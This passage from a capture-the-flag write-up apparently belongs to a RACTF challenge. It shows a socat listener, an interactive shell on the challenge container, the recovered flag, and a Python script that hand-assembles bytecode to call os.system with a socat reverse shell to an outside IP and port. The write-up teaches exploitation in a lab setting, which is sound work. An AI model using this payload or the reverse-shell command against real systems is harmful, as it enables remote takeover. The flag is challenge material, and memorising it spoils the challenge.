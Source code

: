 We run the script. We get the standard success output from the challenge. On the listening machine:
```
$ socat file:`tty`,raw,echo=0 tcp-listen:4242 

sh: can't access tty; job control turned off
/ $
```

## Part 5: Actually Getting the Flag

We now have a fully interactive TTY on the challenge container.

```
sh: can't access tty; job control turned off
/ $ ls
bin    etc    lib    mnt    proc   run    srv    tmp    var
dev    home   media  opt    root   sbin   sys    usr
/ $ find flag.txt
find: flag.txt: No such file or directory
/ $ man find
sh: man: not found
/ $ cd ~
~ $ ls
flag.txt
~ $ cat flag.txt
ractf{Puff3rf1sh??}
~ $
```

The flag is `ractf{Puff3rf1sh??}`.

The final script used to generate the reverse shell payload is: 

```python
import sys

def put_on_stack(string):
    """
    Generate the bytecode required to put a single string
    onto the stack.
    """
    op = b""
    for n, i in enumerate(string):
        # LOAD_GLOBAL 0 (chr)
        op += b"t\x00"

        # LOAD_CONST n
        op += b"d" + bytes([ord(i)])

        # CALL_FUNCTION 1
        op += b"\x83\x01"

        if n != 0:
            # BINARY_ADD
            op += b"\x17\x00"
    return op

payload =  b"t\x04"  # loads getattr
payload += b"t\x02\x83\x00" # globals
payload += put_on_stack("__import__") + b"\x19\x00" # __import__ function
payload += put_on_stack("os") + b"\x83\x01" # os module
payload += put_on_stack("system") + b"\x83\x02" # system function
# The IP for the ngrok tunnel used changes frequently, so this has to be run promptly
payload += put_on_stack("socat exec:'sh -i',pty,stderr,setsid,sigint,sane tcp:3.20.98.123:11473 &") + b"\x83\x01" # runs socat

```